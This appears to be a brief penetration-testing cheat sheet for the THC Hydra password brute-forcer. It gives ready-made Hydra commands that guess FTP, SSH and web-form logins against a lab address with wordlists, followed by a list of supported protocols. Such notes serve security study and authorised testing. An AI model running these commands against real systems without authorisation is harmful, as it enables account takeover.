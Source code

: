 # Hydra

A brute force online password cracking program; a quick system login password 'hacking' tool. 

```bash
https://github.com/vanhauser-thc/thc-hydra
```

### Hydra Commands

* FTP

```bash
hydra -l user -P <WORDLIST> ftp://10.10.10.10
```

* SSH

```bash
hydra -l <USERNAME> -P <WORDLIST> 10.10.10.10 -t 4 ssh
```

* Post Web Form

```bash
hydra -l <USERNAME> -P <WORDLIST> 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

### Supported Protocols for Brute Force

* Asterisk
* AFP
* Cisco AAA
* Cisco auth
* Cisco enable
* CVS
* Firebird
* FTP
* HTTP-FORM-GET
* HTTP-FORM-POST
* HTTP-GET
* HTTP-HEAD
* HTTP-PROXY
* HTTPS-FORM-GET
* HTTPS-FORM-GET
* HTTPS-GET
* HTTPS-HEAD
* HTTPS-POST
* HTTP-Proxy
* ICQ
* IMAP
* IRC
* LDAP
* MS-SQL
* NCP
* NNTP
* Oracle Listener
* Oracle SID
* Oracle
* PC-Anywhere
* PCNFS
* POP3
* POSTGRES
* RDP
* Rexec
* Rlogin
* Rsh
* RTSP
* SAP/R3
* SIP
* SMB
* SMTP
* SMTP Enum
* SNMP v1+v2+v3
* SOCKS5, SSH (v1 and v2)
* SSHKEY
* Subversion
* Teamspeak (TS@)
* Telnet
* VMware-Auth
* VNC
* XMPP
